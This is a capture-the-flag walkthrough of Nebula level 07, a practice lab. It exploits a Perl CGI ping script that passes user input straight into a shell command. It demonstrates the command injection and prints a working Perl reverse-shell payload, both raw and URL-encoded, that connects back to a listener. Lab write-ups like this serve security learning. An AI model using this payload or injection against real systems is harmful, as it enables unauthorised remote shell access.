 # Level 07 - Nebula

```
The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07.
```

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

```
sh-4.2$ ls
index.cgi  thttpd.conf
```

This program uses the perl [CGI](https://www.cs.ait.ac.th/~on/O/oreilly/perl/learn32/ch18_04.htm) library to host a website from the ```/home/flag07``` directory (this is specified in the ```thttpd.conf``` file). It takes the ``` ?host``` parameter and pings it with straight up bash ```ping -c 3 $host 2>&1```.

![example](../../assets/nebula/level07/ping-example.png)

This gives us command injection which we can test with ``` http://192.168.56.102:7007/index.cgi?Host=|%20whoami```

```
flag07
```

We can now pop a reverse shell by URL encoding this payload

```
perl -e 'use Socket;$i="192.168.56.101";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Which becomes

```
http://192.168.56.102:7007/index.cgi?Host=|perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.56.101%22%3B%24p%3D4444%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```

![shell](../../assets/nebula/level07/flag07.png)
